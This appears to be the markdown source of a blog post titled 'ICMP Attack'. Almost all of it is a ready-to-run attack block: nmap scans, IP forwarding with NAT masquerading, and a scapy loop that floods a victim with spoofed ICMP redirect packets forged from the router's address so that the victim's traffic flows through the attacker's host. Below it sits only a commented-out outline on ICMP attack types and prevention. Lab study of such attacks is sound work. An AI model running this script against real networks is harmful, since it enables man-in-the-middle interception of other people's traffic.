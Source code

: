 ```yaml
---
title: 'ICMP'
description: 'ICMP Attack'
pubDate: 'May 12 2023'
heroImage: 'https://res.cloudinary.com/djc1umong/image/upload/v1688891572/0_xyytof.webp'
slug: 'icmp_attack'
---
```


```bash
# ver alcance de la red
ip route show dev eth1
nmap -sn -n 10.23.56.0/24 10.100.13.0/24
nmap -sCV -n 10.1
###
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -s 10.100.13.0/255.255.255.0 -o eth1 -j MASQUERADE

# CORREMOS scapy
scapy

### ICMP Redirect Script

originalRouterIP='10.100.13.1'
attackerIP='10.100.13.20'
victimIP='10.100.13.126'
serverIP='10.23.56.100'
# We create an ICMP Redirect packet
ip=IP()
ip.src=originalRouterIP
ip.dst=victimIP
icmpRedirect=ICMP()
icmpRedirect.type=5
icmpRedirect.code=1
icmpRedirect.gw=attackerIP
# The ICMP packet payload /should/ contain the original TCP SYN packet
# sent from the victimIP
redirPayloadIP=IP()
redirPayloadIP.src=victimIP
redirPayloadIP.dst=serverIP
fakeOriginalTCPSYN=TCP()
fakeOriginalTCPSYN.flags="S"
fakeOriginalTCPSYN.dport=80
fakeOriginalTCPSYN.seq=444444444
fakeOriginalTCPSYN.sport=55555
while True:
    send(ip/icmpRedirect/redirPayloadIP/fakeOriginalTCPSYN)

```

<!--
Introduction
    - Explanation of ICMP
    - Importance of ICMP in computer networks
ICMP Attack
    - Definition of ICMP Attack
    - Types of ICMP Attack
        - ICMP Flood Attack
        - ICMP Redirect Attack
        - ICMP Smurf Attack
        - ICMP Echo Request Flood Attack
Prevention and Mitigation
    - Best practices to prevent ICMP attacks
    - Firewall configurations
    - Intrusion Detection Systems (IDS)
Consequences of ICMP Attacks
    - Impact on network performance
    - Network downtime and disruption
    - Data loss and security breaches
    - Reputational damage
Case Studies
    - Real-world examples of ICMP attacks
    - Consequences faced by affected organizations
Conclusion
    - Recap of the importance of protecting against ICMP attacks
    - Recommendations for securing network infrastructure against ICMP attacks -->
